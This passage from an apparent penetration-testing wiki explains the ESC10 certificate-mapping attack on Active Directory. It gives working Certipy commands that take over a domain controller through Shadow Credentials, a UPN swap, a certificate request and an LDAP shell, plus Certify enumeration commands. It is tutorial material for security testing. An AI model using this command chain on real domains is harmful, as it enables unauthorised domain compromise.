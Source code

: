 > [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario. 

In this scenario, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```
